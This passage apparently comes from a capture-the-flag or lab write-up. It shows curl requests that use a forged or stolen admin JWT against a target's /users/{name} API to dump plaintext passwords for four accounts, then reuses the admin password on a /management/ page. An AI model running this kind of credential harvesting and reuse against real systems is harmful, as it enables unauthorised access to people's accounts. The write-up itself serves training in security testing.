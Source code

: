 We can then access each of the users' information with ``/users/{name}`` (I came across this on google):

```
$ curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MzM3OTgxLCJleHAiOjE1NTk0MjQzODF9.FaZX2S_Fsri6Xij_xz0ySQB7oKiTlD2XXGczd5VrEXA" http://10.10.10.137:3000/users/Admin
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
```

```
$ curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MzM3OTgxLCJleHAiOjE1NTk0MjQzODF9.FaZX2S_Fsri6Xij_xz0ySQB7oKiTlD2XXGczd5VrEXA" http://10.10.10.137:3000/users/Derry
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
```

```
$ curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MzM3OTgxLCJleHAiOjE1NTk0MjQzODF9.FaZX2S_Fsri6Xij_xz0ySQB7oKiTlD2XXGczd5VrEXA" http://10.10.10.137:3000/users/Yuri
{"name":"Yuri","password":"bet@tester87"}
```

```
$ curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MzM3OTgxLCJleHAiOjE1NTk0MjQzODF9.FaZX2S_Fsri6Xij_xz0ySQB7oKiTlD2XXGczd5VrEXA" http://10.10.10.137:3000/users/Dory
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```

That's a lot of credentials we got there! I tried to use them in the previous port under ``/management/`` and one of them worked: ``Admin:WX5b7)>/rp$U)FW``.

*Management directory holds sensitive information*

![Img](images/management.png)
